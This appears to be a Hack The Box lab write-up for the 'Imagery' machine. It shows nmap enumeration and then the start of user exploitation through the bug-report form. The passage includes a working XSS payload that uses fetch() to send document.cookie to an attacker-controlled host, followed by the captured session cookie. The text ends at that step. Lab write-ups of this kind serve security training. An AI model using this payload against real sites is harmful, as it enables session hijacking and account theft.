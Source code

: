 ```yaml
---
name: Imagery
difficulty: medium
os: linux
platform: htb
date: 2025/09/29
releasedDate: 2009-12-31
userFlag: true
rootFlag: true

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/662ccbe3935d62aee031d620014adac4.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.88 -o allPorts
```
```
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 63
8000/tcp open  http-alt syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,8000 -sCV  -o targeted
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
```

We find out there is a a web server running on port 8000 using Werkzeug httpd 3.1.3 (Python 3.12.7).

We register and login to the web application. We can upload images to the gallery.

## User Exploitation

We can use the `Report a bug` feature to perform XSS attacks. We can use the following payload to steal the session cookie:
```html
<img src="gjkfjsdkgjkl" onerror="fetch('http://10.10.14.219/?c='+document.cookie)" >
```
```
GET /?c=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNl8JA.-esDt-H-cjovOPp_2bdpQEfnb7k
```
